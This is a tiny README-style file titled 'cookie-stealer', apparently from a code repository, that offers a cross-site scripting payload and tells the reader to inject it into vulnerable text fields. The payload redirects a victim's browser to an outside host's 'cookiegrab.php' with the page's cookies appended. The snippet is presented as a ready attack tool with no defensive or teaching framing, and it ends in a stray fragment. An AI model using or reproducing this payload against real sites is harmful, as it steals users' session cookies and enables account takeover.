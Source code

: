 # cookie-stealer

inject 
	<script language="javascript"> document.location= " http://kennethzhang.net/cookiegrab.php?c=" + document.cookie; </script>
into vulnerable text fields
Is
